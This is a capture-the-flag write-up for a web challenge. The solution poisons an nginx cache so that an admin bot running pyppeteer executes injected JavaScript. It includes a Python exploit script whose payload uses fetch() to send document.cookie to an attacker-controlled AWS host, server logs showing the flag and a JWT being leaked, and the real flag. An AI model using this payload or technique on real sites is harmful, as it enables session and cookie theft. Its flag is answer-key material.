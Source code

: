 # ai-government-complaint-form

[library.m0unt41n.ch/challenges/ai-government-complaint-form](https://library.m0unt41n.ch/challenges/ai-government-complaint-form) ![](../../resources/web.svg) ![](../../resources/medium.svg) 

# TL;DR

We inject user-specific malicious JS which, thanks to over-zealous cache,
is picked by pyppeteer-driven Chrome browser, logged-in with admin credentials.

# Setup

First, some fixes and extra tools in the container:

```bash
$ chmod a+x app/start.sh app/bot.py
$ sed -i 's/80:80/8080:80/' docker-compose.yml
$ sed -i '/cron/a\\nRUN apt-get install -y sqlite3 vim wget tcpdump procps' app/Dockerfile
```

With that, we can launch and get a shell inside

```bash
$ docker compose up
$ docker container exec -ti $(docker ps -ql --filter "ancestor=ai-government-complaint-form-web") /bin/bash
```

# App components

## `nginx` at port 80

Simple, caching proxy, listening on port 80 and proxying requests to the web server (below):

```
proxy_cache_path /var/cache/nginx levels=1:2 keys_zone=my_cache:10m max_size=10g inactive=60m use_temp_path=off;
server {
  listen 80;
  location / {
    proxy_cache my_cache;
    proxy_pass http://web:5000;
    proxy_cache_key "$scheme$request_method$request_uri$http_user_agent";
    proxy_set_header Host $host;
    proxy_set_header X-Real-IP $remote_addr;
    proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    proxy_set_header X-Forwarded-Proto $scheme;
  }
}
```

Note the `proxy_cache_key`, will be important later.

## `web` server at port 5000

A simple Flask app, with a DB of users. Apart from user ID, name and password
(precisely: hexdigest of its SHA256), it also stores a piece of JS.
Authentication is a generic JWT-based token, with a random secret key generated
at start. No obvious weakness there.

The endpoints are:

*   `GET /` - login page
*   `GET /register` - registration form
*   `POST /register` - takes `username` and `password` from the registration form, tries to create user and generate `authorization` cookie.
*   `GET /login` - login form
*   `POST /login` - takes `username` and `password`, checks against DB, if successful, generates `authorization` cookie.
*   `GET /dashboard` - main dashboard
*   `GET /notify_ai` - executes `bot.py` (see below)
*   `POST /scripts/user.js` - updates the JS in DB for currently logged-in user with the value of  `js` param
*   `GET /scripts/user.js` - retrieves JS for currently logged-in user
*   `POST /send` - seems no-op, returns a fixed string at best
*   `GET /faq` - evals `faq.txt` as a Python expression and returns the result

Main template is `dashboard.html`, used by all endpoints except `/login` and
`/register`, that use `login.html`. There is also `bot.html`, seemingly not
used.

There seems to be no app functionality that would use `POST /scripts/user.js`, but we can still
trigger it manually.

## `bot.py`

Simple, one-shot [pyppeteer](https://github.com/pyppeteer/pyppeteer) run, which:

*   Launches a headless browser
*   Sets `User-Agent` to `/mnt/ain CTF bot`
*   Sets `flag` cookie to the value from `flag.txt`
*   Logins as `ai` (first, preconfigured user, stored in `password.txt`)
*   Loads the `/dashboard` from nginx.
*   Loads `/scripts/user.js` from nginx.

Now, important bit: **`dashboard.html` runs `/scripts/user.js`**:

```html
<script src="/scripts/user.js"></script>
```

Which means that if we can change the JS executed by the bot, we will have the flag in the cookie there!

# Exploit

The most important component here is the nginx cache. It is used by the bot and seems oblivious to
authentication. So, if we can poison that cache with our own JS, the bot will load it, instead of
fetching it from the DB.

So, the overall idea of the attack:

*   Start a separate `python3 -m http.server 80` somewhere (AWS instance)
*   Create a user
*   Update that user's JS to something that would pull the flag from the cookie and send it to the HTTP server
    (can be a dummy GET, with cookie as part of the URL, that we'll pick from server logs)
*   `GET /scripts/user.js` to poison the cache
*   Call the bot - hope that it will get our JS and run the code.

This assumes that the remote instance will have access to the internet. But, there is a hint that
this might be the case: additional `make_download_shit.py` which starts at boot and loads
[http://example.com](http://example.com) - with UA set to `/mnt/ain CTF bot`, no less.

The exploit code:

```python
import requests

URL="http://localhost:8080"
AWS_URL="http://ec2-12-34-123-45.compute-1.amazonaws.com"

s = requests.Session()
s.headers.update({"User-Agent": "/mnt/ain CTF bot"})

s.post(URL+"/register", data={"username": "testuser", "password": "testpassword"})
s.post(URL+"/login", data={"username": "testuser", "password": "testpassword"})
s.post(URL+"/scripts/user.js", data={"js": "fetch('"+AWS_URL+"/'+encodeURIComponent(document.cookie));"})
s.get(URL+"/scripts/user.js")
s.get(URL+"/notify_ai")
```

Testing this against the local Docker container, we see a promising entry in the HTTP server log:

```
xxx.xxx.xxx.xxx - - [01/Dec/2024 19:06:41] "GET /flag%3Dcyberskills23%7Bfake_flag%7D%3B%20authorization%3DeyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwiZXhwIjoxNzMzMDgxODAwfQ.MY0oQtCYesFj2O9Vmtdj70iDW71M7AaFWq1axvcmZ8M HTTP/1.1" 404 -
```

And finally, against the remote instance:

```python
URL="https://591e7dbf-03c5-4aa7-ac9e-a653132d14fc.library.m0unt41n.ch:31337"
```

... we get the flag:

```
yyy.yyy.yyy.yyy - - [01/Dec/2024 19:10:42] "GET /flag%3Dcyberskills23%7BG0v3rnm3nts_b3ing_G0v3rnm3nts%7D%3B%20authorization%3DeyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwiZXhwIjoxNzMzMDgyMDQxfQ.Xs4e_XWQtJiRydcrSFyAPyh9a3fOHJzZGrnjnRhpRLg HTTP/1.1" 404 -
```

---

## `cyberskills23{G0v3rnm3nts_b3ing_G0v3rnm3nts}`



<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
